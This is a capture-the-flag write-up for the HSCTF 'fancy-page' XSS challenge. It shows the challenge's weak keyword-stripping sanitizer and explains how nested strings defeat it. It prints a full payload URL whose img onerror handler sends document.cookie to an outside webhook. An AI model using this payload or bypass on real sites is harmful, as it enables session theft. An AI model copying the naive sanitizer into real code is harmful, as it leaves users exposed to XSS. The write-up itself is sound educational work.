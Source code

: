 # fancy-page
> http://fancy-page.hsctf.com

## About the Challenge
We were given a source code (You can download the source code [here](fancy-page.zip)). Inside the source code there is a JavaScript file called `display.js`. Here is the content of the file

```js
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";

function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}

let title = document.getElementById("title");
let content = document.getElementById("content");

function display() {
	title.textContent = Arg("title");
	document.title = Arg("title");

	let sanitized = sanitize(Arg("content"));
	content.innerHTML = sanitized;

	document.body.style.backgroundColor = Arg("background_color");
	document.body.style.color = Arg("color");
	document.body.style.fontFamily = Arg("font");
	content.style.fontSize = Arg("font_size") + "px";
}

display();
```

As you can see, this is a XSS challenge, but there is some sanitization applied to certain strings, such as `script`, `on`, `iframe`, `object`, `embed`, and `cookie`

## How to Solve?
To bypass the sanitization im using `string within a string`. For example

```
cookie => ""
coocookiekie => "cookie"
```

And here is the payload I used to solve this chall

```
http://fancy-page.hsctf.com/display.html?title=test&content=test%3Cimg/src/oonnerror%3Dlocatioonn.replace(%27https://webhook.site/bbd37165-3069-4602-8ffe-56a1c7e6a8a1%2F%3F%27%2Bdocument.coocookiekie)%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
```

And then check webhook to obtain the flag

![flag](images/flag.png)

```
flag{filter_fail}
```